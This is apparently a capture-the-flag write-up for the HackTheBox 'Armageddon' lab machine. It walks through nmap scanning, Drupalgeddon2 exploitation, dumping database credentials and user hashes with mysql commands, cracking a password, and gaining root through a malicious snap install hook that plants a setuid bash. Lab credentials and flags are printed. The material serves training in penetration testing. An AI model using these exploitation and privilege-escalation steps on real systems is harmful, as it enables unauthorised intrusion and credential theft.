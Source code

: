 # Armaggedon

export IP=10.10.10.233

# Solution

Starting with an nmap scan

```bash
cmd: sudo nmap -sC -sV -oN nmap/initial $IP

22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
```

Lets check all the information that the nmap gave on the webserver running on port 80 <br>

**Note:** i'll also leave an all port scan in the background <br>

Checking the functionality, we can do basically anything besides login <br>

The **Create new account** dont work completely (because we cant login) but it seems that the information is actually stored (refers that needs approval) <br> 

Robots.txt
``` 
---snip---
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
``` 

In the **/CHANGELOG.txt** we can see the drupal version
```
Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.
```

Well, it's a pretty old version and ofcourse there is a metasploit payload for it with a name that seems to correlate with the machine... well this escalated quickly
```
1  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
```

Using the exploit
```
cmd: whoami && id
apache
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

One thing that i checked, that i usually dont do was checking the kernel version
``` 
cmd: uname -a

Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

We can see the **armageddon.htb** which may be needed further down the road. <br>

Searching the drupal configs found the DB credentials at **../sites/default/settings.php**
```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

So i tried to use mysql interactively but it was just freezing, so i went ahead and searched for non-interactive queries execution [here](https://electrictoolbox.com/run-single-mysql-query-command-line/)
```bash
So to run a single MySQL query from your regular shell instead of from MySQL’s interactive command line you would do this:
mysql -u [username] -p [dbname] -e [query]
``` 

So i build some commands to extract passwords
```bash
cmd: mysql -u "drupaluser" -h "localhost" "-pCQHEy@9M*m23gBVj" "drupal" -e "show tables;"
# ----snip---
users
users_roles
# ----snip---

cmd: mysql -u "drupaluser" -h "localhost" "-pCQHEy@9M*m23gBVj" "drupal" -e "describe users;"
uid     int(10) unsigned        NO      PRI     0
name    varchar(60)             NO      UNI
pass    varchar(128)            NO
# ---snip---

cmd: mysql -u "drupaluser" -h "localhost" "-pCQHEy@9M*m23gBVj" "drupal" -e "select uid, name, pass from users;"
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
3       test                    $S$Dhd1BggGXot5EmAOTfHCpYcxufquc3rWA66md.Bu4rYRbIwbx.h8
4       test123                 $S$DWYn3n/vHyQpUnFMkLXc0zxMnKCDHj/IH/57QsuuZS9SNGHhvfaS
```

My initial idea was to generate a hash and change the **brucetherealadmin** but the **apache** user is not able to run php and thus not run the **/scripts/password-hash.sh** script (which generates a hash for a given password) <br>

So i tried to crack the hash (with john), and it cracked
```bash
brucetherealadmin:booboo
```

Trying it for the ssh service, worked
```bash
cmd: whomai && id

brucetherealadmin
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

cmd: cat ~/user.txt
# FLAG: f3a13dc50f1c88e54f257fbb13403cbb
```

Into root baby! Checking what the user can do as sudo
```bash
cmd: sudo -l

---snip---
User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

In gtfobins we have an entry for snap in order to install a malicious package <br>

We need to build it locally with
```bash
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\ncp /bin/bash /home/brucetherealadmin/.w/rootbash && chmod +s /home/brucetherealadmin/.w/rootbash' > meta/hooks/install
chmod +x meta/hooks/install
fpm -n waza -s dir -t snap -a all meta
```

and voila, we are root
```bash
cmd: whoami && d

root
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) euid=0(root) egid=0(root) groups=0(root),1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

cmd: cat /root/root.txt
# FLAG: ed16db86a1a5df415b4d3ebdefab4e42
```